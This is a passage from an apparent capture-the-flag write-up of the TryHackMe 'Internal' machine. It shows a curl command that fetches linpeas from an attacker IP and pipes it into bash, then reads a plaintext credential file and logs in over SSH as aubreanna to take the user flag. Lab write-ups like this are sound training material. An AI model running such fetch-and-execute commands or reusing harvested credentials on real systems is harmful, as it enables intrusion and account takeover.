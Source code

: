 The mysql creds in `wp-config.php` doesn't help much

Run linpeas to gather more info

```bash
curl 10.11.19.145/linpeas.sh|bash
```

![](../../attachment/485e144ea01f87308d4d533cd0eb41a5.png)

![](../../attachment/ae0aa72c29472d042bf1063120cd4657.png)

```bash
www-data@internal:/var/www/html/wordpress$ cat /opt/wp-save.txt
cat /opt/wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```

```bash
sshpass -p 'bubb13guM!@#123' ssh -o "StrictHostKeyChecking no" aubreanna@internal.thm
```

```bash
aubreanna@internal:~$ id
uid=1000(aubreanna) gid=1000(aubreanna) groups=1000(aubreanna),4(adm),24(cdrom),30(dip),46(plugdev)
aubreanna@internal:~$ cat user.txt
THM{int3rna1_fl4g_1}
aubreanna@internal:~$
```
